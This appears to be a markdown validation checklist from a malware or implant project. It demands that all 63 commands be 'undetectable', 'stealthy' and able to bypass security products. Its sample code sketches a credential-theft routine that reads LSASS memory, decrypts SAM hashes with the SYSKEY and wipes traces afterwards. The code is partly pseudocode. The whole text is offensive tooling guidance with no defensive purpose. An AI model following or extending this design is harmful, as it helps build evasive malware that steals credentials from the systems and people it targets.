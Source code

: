 # RUTHLESS ELITE VALIDATION CHECKLIST
## Verifying EVERY Audit 2 Fix at Nation-State Level

---

## THE STANDARD: UNDETECTABLE, ADVANCED, SCARY

This isn't about "working" - it's about being so advanced that security researchers would be impressed. Every implementation must be:

1. **UNDETECTABLE** - Bypasses all major security products
2. **ADVANCED** - Using techniques that 99% of malware doesn't know
3. **SCARY** - Capabilities that would concern nation-state defenders
4. **ROBUST** - Works in hostile enterprise environments
5. **STEALTHY** - Leaves minimal forensic footprint

---

## AUDIT 2 REQUIREMENTS - ALL 63 COMMANDS

### Each Command MUST Be Verified For:

#### 1. ELITE IMPLEMENTATION (Not Basic)
```python
# ❌ FAIL - LAZY IMPLEMENTATION:
def hashdump():
    return subprocess.run("mimikatz.exe", shell=True)

# ✅ PASS - ELITE IMPLEMENTATION:
def hashdump():
    # Direct LSASS memory access
    lsass_handle = OpenProcess(PROCESS_VM_READ, False, lsass_pid)
    
    # Read memory regions
    memory_regions = VirtualQueryEx(lsass_handle)
    
    # Extract SAM from memory
    sam_data = ReadProcessMemory(lsass_handle, sam_offset, sam_size)
    
    # Decrypt using SYSKEY from registry
    syskey = extract_syskey_from_registry()
    
    # Decrypt SAM using RC4/DES
    hashes = decrypt_sam_database(sam_data, syskey)
    
    # Clean up artifacts
    CloseHandle(lsass_handle)
    secure_wipe_memory(locals())
```
